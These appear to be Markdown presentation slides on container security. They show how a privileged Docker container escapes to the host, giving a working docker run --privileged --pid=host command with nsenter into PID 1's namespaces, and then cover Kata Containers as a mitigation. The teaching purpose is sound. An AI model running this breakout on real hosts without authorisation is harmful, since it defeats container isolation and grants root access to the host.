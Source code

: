 ## Privileged Containers

Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

Parameters of `nsenter`:

- Work with namespaces (nsenter)
- Uses process tree of host (--pid=host)
- Get namespace from PID 1 (-t 1)
- Enter namespaces required for shell (-m -u -n -i)

--

## Demo: Privileged Containers

Running privileged containers:

```bash
docker run -d --rm --privileged docker:stable-dind
```

Host breakout from privileged container:

```bash
docker run --rm --privileged --pid=host -it alpine:3.8 \
    nsenter -t 1 -m -u -n -i sh
```

--

## Taming Privileges Containers

### For example

![](https://katacontainers.io/assets/img/logo_white.e69d7ea6.svg) <!-- .element: style="width: 35%" -->

Isolates containers in a lightweight VM

Configured as a container runtime (instead of `runc`)

--

## Docker Engine API Filter

XXX